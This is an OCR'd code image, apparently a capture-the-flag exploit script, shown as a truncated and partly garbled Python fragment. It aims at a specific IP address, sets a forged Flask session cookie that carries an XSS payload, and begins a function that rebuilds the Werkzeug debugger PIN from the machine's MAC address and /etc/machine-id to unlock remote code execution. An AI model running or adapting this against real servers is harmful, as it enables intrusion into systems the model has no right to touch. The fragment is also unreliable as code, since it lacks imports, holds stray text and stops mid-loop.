 ```Python
fuxk

"""

import hashlib

from itertools import chain



url = "http://123.60.72.85:5002/view"



session = requests.session()



cookies = {

    "session": "eyJjc3JmX3Rva2VuIjoiNTIzYzk1ODJkMDY3YzU0Yjk5YmZjMjgyNGVlODgyYWZkNmFkZDgwOCIsInVzZXJuYW1lIjoiYTwvYT48c2NyaXB0PmFsZXJ0KDEpOzwvc2NyaXB0PjxhPiJ9.YlpCjg.o3nmen81K8VdxHDT-4lrydruCMQ"

}





def getPin(uuid, machine_id, username='root', modname='flask.app', className='Flask',

           file='/usr/local/lib/python3.8/site-packages/flask/app.py'):

    probably_public_bits = [

        username,  # username

        modname,  # modname

        className,  # getattr(app, '__name__', getattr(app.__class__, '__name__'))

        file  # getattr(mod, '__file__', None),

    ]



    private_bits = [

        uuid,  # str(uuid.getnode()),  /sys/class/net/ens33/address

        machine_id  # get_machine_id(), /etc/machine-id

    ]



    h = hashlib.sha1()

    for bit in chain(probably_public_bits, private_bits):

        if not bit:

```